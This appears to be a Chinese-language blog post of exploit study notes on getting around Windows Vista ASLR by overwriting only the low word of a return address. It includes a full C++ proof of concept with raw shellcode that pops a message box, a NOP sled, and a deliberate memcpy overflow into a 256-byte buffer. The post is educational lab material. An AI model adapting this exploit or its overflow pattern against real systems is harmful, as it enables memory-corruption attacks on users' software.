 ```yaml
---
title: 漏洞学习笔记-018-利用部分覆盖定位
description: 利用部分覆盖定位shellcode
date: 2020-11-26 17:54:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-018-利用部分覆盖定位/)

## 原理

- 映像随机化指示对映像加载基址的全两个字节随机化处理，这样做的后果是跳板始终可用，因此可以利用这一点去绕过ASLR
- 如果攻击memcpy的话，可以将返回值控制在`0xXXXX0000`~`0xXXXXFFFF`之间，而攻击str类函数攻击，可以将控制地址为`0xXXXX0100`~`0xXXXX00FF`之间的一个

## 过程

- 首先在编译完的程序内找到一条jmp eax的汇编码，随后将它的地址的低word作为`off by word`的地址，填入shellcode
- 计算好缓冲区大小，溢出后即可正常

## 代码

```cpp
#include <memory.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x2A\x23" // off by word
;

char* test()
{
	char tt[256];
	memcpy(tt, shellcode, 262);
	return tt;
}

int main()
{
	char temp[200];
	test();
	return 0;
}
```

## 开始实验

> 实验环境：系统：Windows Vista SP0，系统DEP状态：Optin默认，编译器：Visual Studio 2008，优化：禁用优化，GS选项：关闭，DEP选项：/NXCOMPAT:NO，build版本：release

- 编译程序，运行，直接弹出窗口并成功，重启也一样，如图

![成功](https://s3.ax1x.com/2020/11/28/Dyps2t.png)
